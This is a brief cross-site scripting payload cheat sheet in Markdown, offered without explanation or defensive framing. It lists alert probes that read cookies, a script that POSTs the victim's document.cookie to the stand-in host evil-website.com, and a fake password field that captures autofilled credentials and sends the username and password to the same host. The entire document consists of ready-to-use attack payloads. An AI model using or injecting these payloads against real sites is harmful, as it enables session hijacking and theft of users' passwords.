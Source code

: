 # Cross-Site Scripting

## General

```
<script>alert(document.cookie)</script>
```

```
<img src=x onerror=alert(document.cookie)>
```

## Steal Cookie

```
<script>
fetch("https://evil-website.com", {
  method: "POST",
  mode: "no-cors",
  body: JSON.stringify({ cookie: document.cookie }),
});
</script>
```

## Steal Password

**Only for users who have enabled autofill passwords**

```
<input name="username" id="username" />
<input
    name="password"
    id="password"
    type="password"
    onchange="if(this.value.length); fetch('https://evil-website.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});"
/>
```

